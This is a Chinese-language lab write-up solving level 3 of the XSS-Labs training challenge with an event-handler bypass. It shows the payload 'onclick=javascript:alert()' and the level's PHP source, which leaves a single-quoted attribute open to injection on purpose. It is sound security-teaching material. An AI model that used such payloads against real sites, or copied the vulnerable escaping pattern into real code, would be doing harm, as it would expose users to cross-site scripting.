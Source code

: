 ### 事件绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第三关**

使用上一关的 payload 发现也被转义了

![](https://pic1.imgdb.cn/item/681382b758cb8da5c8d63762.png)

这里我们可以利用事件绕过，事件主要存在于一些标签的属性内部

还是要闭合下 `value`

```html
'onclick=javascript:alert()' 	<!-- 点击事件 --!>
```

提交后可以看到 `input` 标签中多了个 `onclick` 事件

![](https://pic1.imgdb.cn/item/681383eb58cb8da5c8d6379e.png)

这个时候我们在点击这个 `input` 即可弹窗

![](https://pic1.imgdb.cn/item/6813842958cb8da5c8d637b2.png)

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level4.php?keyword=try harder!"; 
}
</script>
<title>欢迎来到level3</title>
</head>
<body>
<h1 align=center>欢迎来到level3</h1>
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>	
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
<center><img src=level3.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

